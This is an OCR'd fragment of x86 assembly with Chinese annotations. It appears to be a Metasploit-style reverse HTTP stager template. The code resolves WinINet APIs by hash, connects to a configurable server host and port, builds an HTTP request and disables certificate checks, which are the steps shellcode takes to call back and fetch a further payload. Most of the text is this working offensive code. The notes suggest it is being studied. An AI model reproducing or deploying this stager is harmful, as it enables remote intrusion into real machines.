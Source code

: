 		internetopen:;【初始化WinINet函数】
		  xor edi,edi
		  push edi               ; DWORD dwFlags
		  push edi               ; LPCTSTR lpszProxyBypass
		  push edi               ; LPCTSTR lpszProxyName
		  push edi               ; DWORD dwAccessType (PRECONFIG = 0)
		  push esi               ; LPCTSTR lpszAgent ("wininet\x00")
		  push 0xA779563A        ; hash( "wininet.dll", "InternetOpenA" )
		  call ebp
		
		  jmp.i8 dbl_get_server_host
		
		internetconnect:;【建立 Internet 的连接】
		  pop ebx                ; Save the hostname pointer
		  xor ecx, ecx
		  push ecx               ; DWORD_PTR dwContext (NULL)
		  push ecx               ; dwFlags
		  push #{protoflags[proto]}	; DWORD dwService (INTERNET_SERVICE_HTTP or INTERNET_SERVICE_FTP)
		  push ecx               ; password
		  push ecx               ; username
		  push #{port_nr}        ; PORT
		  push ebx               ; HOSTNAME
		  push eax               ; HINTERNET hInternet
		  push 0xC69F8957        ; hash( "wininet.dll", "InternetConnectA" )  Windows应用程序网络相关模块
		  call ebp
		
		  jmp.i8 get_server_uri
		
		httpopenrequest:
		  pop ecx
		  xor edx, edx            ; NULL
		  push edx                ; dwContext (NULL)
		  #{dwflags_asm}          ; dwFlags
		  push edx                ; accept types
		  push edx                ; referrer
		  push edx                ; version
		  push ecx                ; url
		  push edx                ; method
		  push eax                ; hConnection
		  push 0x3B2E55EB         ; hash( "wininet.dll", "HttpOpenRequestA" )
		  call ebp
		  mov esi, eax            ; hHttpRequest
		
		set_retry:
		  push 0x10
		  pop ebx
		
		; InternetSetOption (hReq, INTERNET_OPTION_SECURITY_FLAGS, &dwFlags, sizeof (dwFlags) );
		set_security_options:
		  push 0x00003380
		  mov eax, esp
		  push 4                 ; sizeof(dwFlags)
		  push eax               ; &dwFlags
		  push 31                ; DWORD dwOption (INTERNET_OPTION_SECURITY_FLAGS)
		  push esi               ; hRequest
		  push 0x869E4675        ; hash( "wininet.dll", "InternetSetOptionA" )
		  call ebp
		